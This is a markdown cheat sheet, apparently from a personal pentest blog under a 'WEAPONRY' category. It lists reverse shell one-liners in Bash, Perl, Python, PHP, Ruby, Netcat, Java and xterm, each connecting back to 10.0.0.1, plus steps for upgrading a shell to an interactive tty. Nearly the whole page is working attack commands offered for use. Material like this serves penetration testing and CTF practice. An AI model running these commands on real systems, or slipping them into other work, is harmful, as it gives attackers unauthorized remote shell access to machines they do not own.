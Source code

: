 ```yaml
---
title: Reverse Shell
date: 2020-11-23 23:08:12
category: WEAPONRY
---
```


# Reverse Shell Cheat Sheet

> 升级成半交互式 tty
> ``` bash
> python -c 'import pty; pty.spawn("/bin/bash")'
> ```
> 升级成完全交互式 tty，能用方向键 + tab，就是退出比较麻烦。**（在 KALI2020.3 上不成功，原因未知，可能跟 zsh 有关？）**
> ``` bash
> python -c 'import pty; pty.spawn("/bin/bash")'
> Ctrl + Z
> stty raw -echo
> fg
> reset
> ```

### Bash
Tested on Ubuntu 10.10
``` bash
/bin/bash -i >& /dev/tcp/10.0.0.1/1234 0>&1
```

### Perl
``` bash
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### Python 2.7 
Tested under Linux / Python 2.7
``` bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### PHP
This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5, 6…
``` bash
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### Ruby
``` bash
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Netcat
不一定所有 nc 都能用哦。
``` bash
# Linux
nc -e /bin/sh 10.0.0.1 1234
# Windows
nc -e cmd.exe 10.0.0.1 1234
```
Netcat-openbsd 版不支持 -e，这时候用下面的。
``` bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

### Java
没测过。
``` java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### Xterm
One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.
``` bash
xterm -display 10.0.0.1:1
```
To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):
``` bash
Xnest :1
```
You’ll need to authorise the target to connect to you (command also run on your host):
``` bash
xhost +targetip
```